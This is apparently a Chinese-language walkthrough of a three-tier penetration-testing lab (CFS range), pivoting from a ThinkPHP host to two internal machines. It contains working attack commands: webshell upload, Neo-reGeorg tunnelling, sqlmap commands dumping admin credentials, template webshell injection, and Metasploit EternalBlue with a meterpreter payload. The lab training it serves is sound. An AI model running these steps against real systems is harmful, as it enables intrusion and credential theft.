CFS三层靶机¶
靶机地址：http://cloud-pentest.cn/index.html#;
网络拓扑图：


工具准备:
- nmap
- fscan
- ThinkPHP_getshell-v2.exe ThinkPHP漏洞利用工具
- 蚁剑
- proxychains4
- sqlmap
- Neo-regeorg
攻击机信息：
┌──(root㉿kali)-[/home/tom/桌面]
└─# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.106.128 netmask 255.255.255.0 broadcast 192.168.106.255
inet6 fe80::20c:29ff:feab:94e2 prefixlen 64 scopeid 0x20<link>
ether 00:0c:29:ab:94:e2 txqueuelen 1000 (Ethernet)
RX packets 6501061 bytes 3322102671 (3.0 GiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 4268971 bytes 583608839 (556.5 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8345 bytes 28506889 (27.1 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8345 bytes 28506889 (27.1 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500
inet 10.8.0.170 netmask 255.255.255.255 destination 10.8.0.169
inet6 fe80::2fd9:634a:9163:51ff prefixlen 64 scopeid 0x20<link>
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 500 (UNSPEC)
RX packets 38 bytes 4155 (4.0 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 2079 bytes 79733 (77.8 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
渗透流程：¶
172.25.0.13¶
nmap¶
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap -sn 172.25.0.1/24
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-30 00:54 CST
Nmap scan report for 172.25.0.1
Host is up (0.085s latency).
Nmap scan report for 172.25.0.13
Host is up (0.16s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 11.01 seconds
fscan¶

我们可以看到靶机172.25.0.13存活，并开放了22，80，21等端口。
访问下网站：

我们发现是Thinkphp5.x框架，我们可以尝试相关exp，下面我们发现确实存在漏洞。

直接掏出工具扫一波，存在漏洞。

利用该工具写入shell，之后使用蚁剑连接。

访问php，验证上传shell成功。
蚁剑连接成功了

成功找到第一个flag。

先信息收集一波




我们发现当前靶机还处于192.168.22的网段下，下面我们建立代理。
这里我们使用neo-regeorg，使用的主要命令如下：

首先生成通道文件，key设置为password，之后将tunnel.php上传到网站的根目录下，与此同时我们的攻击机与通道文件建立sock5代理连接。
┌──(root㉿kali)-[/home/tom/桌面/tools/Neo-reGeorg-5.2.0]
└─# python neoreg.py generate -k password
"$$$$$$'' 'M$ '$$$@m
:$$$$$$$$$$$$$$''$$$$'
'$' 'JZI'$$& $$$$'
'$$$ '$$$$
$$$$ J$$$$'
m$$$$ $$$$,
$$$$@ '$$$$_ Neo-reGeorg
'1t$$$$' '$$$$<
'$$$$$$$$$$' $$$$ version 5.2.0
'@$$$$' $$$$'
'$$$$ '$$$@
'z$$$$$$ @$$$
r$$$ $$|
'$$v c$$
'$$v $$v$$$$$$$$$#
$$x$$$$$$$$$twelve$$$@$'
@$$$@L ' '<@$$$$$$$$`
$$ '$$$
[ Github ] https://github.com/L-codes/Neo-reGeorg
[+] Create neoreg server files:
=> neoreg_servers/tunnel.go
=> neoreg_servers/tunnel.ashx
=> neoreg_servers/tunnel.php
=> neoreg_servers/tunnel.jspx
=> neoreg_servers/tunnel.aspx
=> neoreg_servers/tunnel.jsp
┌──(root㉿kali)-[/home/tom/桌面/tools/Neo-reGeorg-5.2.0]
└─# python3 neoreg.py -k password -u http://172.25.0.13/tunnel.php
"$$$$$$'' 'M$ '$$$@m
:$$$$$$$$$$$$$$''$$$$'
'$' 'JZI'$$& $$$$'
'$$$ '$$$$
$$$$ J$$$$'
m$$$$ $$$$,
$$$$@ '$$$$_ Neo-reGeorg
'1t$$$$' '$$$$<
'$$$$$$$$$$' $$$$ version 5.2.0
'@$$$$' $$$$'
'$$$$ '$$$@
'z$$$$$$ @$$$
r$$$ $$|
'$$v c$$
'$$v $$v$$$$$$$$$#
$$x$$$$$$$$$twelve$$$@$'
@$$$@L ' '<@$$$$$$$$`
$$ '$$$
[ Github ] https://github.com/L-codes/Neo-reGeorg
+------------------------------------------------------------------------+
Log Level set to [ERROR]
Starting SOCKS5 server [127.0.0.1:1080]
Tunnel at:
http://172.25.0.13/tunnel.php
+------------------------------------------------------------------------+
上传tunnel.php到网站根目录，

建立成功后，我们上传fscan_amd64到该靶机，进行网段扫描。
扫到192.168.22.22。
之后设置火狐浏览器代理，使用socks5进行连接。

192.168.22.22¶
访问成功。

查看/robots.txt

根据提示可以找到登录界面http://192.168.22.22/index.php?r=admini/public/login

尝试登陆后，发现该接口可能存在sql注入漏洞，使用sqlmap进行测试。
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch --dbs --proxy=socks5://127.0.0.1:1080

sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms --tables --proxy=socks5://127.0.0.1:1080

sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin --columns --proxy=socks5://127.0.0.1:1080

sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin -C username,password --dump --proxy=socks5://127.0.0.1:1080

成功登录。

模板里面可以插入一句话木马。

访问页面，确认马url的路径

蚁剑设置sock5代理

尝试连接

信息搜集，我们发现该靶机还处于192.168.33的网段。

上传neo到第一台靶机中，并将生成的tunnel.php上传到192.168.22.22靶机中。



可以先查看一下172.25.0.13靶机能不能用python，有没有python环境

然后开启代理建立连接。

192.168.33.33¶
以T2为跳板访问T3，我们在攻击机使用nmap扫描33网段 。
我们直接对内网33.33服务器进行扫描：
┌──(root㉿kali)-[/home/tom/桌面]
└─# proxychains nmap -Pn -sT -sV 192.168.33.33 -p 445,3389
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-31 06:25 CST
[proxychains] Strict chain ... 127.0.0.1:9050 ... timeout
[proxychains] Strict chain ... 127.0.0.1:9050 ... timeout
Nmap scan report for 192.168.33.33
Host is up (0.00057s latency).
PORT STATE SERVICE VERSION
445/tcp closed microsoft-ds
3389/tcp closed ms-wbt-server
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds
注意：这里使用proxychains4需要配置/etc/proxychains.con
┌──(root㉿kali)-[/home/tom/桌面]
└─# cat /etc/proxychains.conf
# proxychains.conf VER 3.1
#
# HTTP, SOCKS4, SOCKS5 tunneling proxifier with DNS.
#
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 172.25.0.13 2001
我们通过 msfconsole 利用永恒之蓝漏洞。
proxychains msfconsole
search ms17_010
use 1
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.33.33
run

但是太不稳定了，总是超时。
